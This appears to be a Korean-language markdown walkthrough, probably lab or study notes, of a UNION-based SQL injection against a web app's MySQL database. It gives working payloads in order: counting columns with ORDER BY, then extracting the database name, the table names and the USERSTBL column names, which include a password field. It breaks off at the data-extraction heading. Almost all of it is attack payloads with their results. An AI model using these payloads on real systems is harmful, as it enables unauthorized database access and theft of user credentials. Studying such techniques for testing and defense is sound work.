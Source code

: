 <br />

```sql
'or'1'='1' order by 1--
'or'1'='1' order by 2--
'or'1'='1' order by 3--
'or'1'='1' order by 4--
```

- 에러페이지가 나올 때까지 반복
  - 나오면 직전 숫자가 컬럼의 개수

<br />

### 2. DB 이름 알아내기

```sql
'or'1'='1' union select null,null, database(),null --
```

- 3번 컬럼 자리에 데이터베이스 이름이 표시
- 절대 사용되지 않을 인덱스 값을 넣어 뒤에 오는 명령이 실행 되도록 한다

##### 3. 테이블 이름 알아내기

```sql
'or'1'='1' union select null,group_concat(table_name),null,null from information_schema.tables where table_type='TABLE'--
```

- 테이블 이름들이 한줄로 묶여서 표시
- 절대 사용되지 않을 인덱스 값을 넣어 뒤에 오는 명령이 실행 되도록 한다

##### 결과 : USERSTBL,BOARDSTBL

<br />

### 4. 컬럼명 알아내기

- 컬럼이름들이 한줄로 묶여서 표시
- 절대 사용되지 않을 인덱스 값을 넣어 뒤에 오는 명령이 실행 되도록 한다

<br />

#### USERSTBL

```sql
'or'1'='1' union select null,null, group_concat(column_name),null from information_schema.columns where table_name='USERSTBL'--
```

##### 결과 : ID,USERID,USERPW,USERNAME

<br />

### 5. 데이터 추출하기

#### USERSTBL
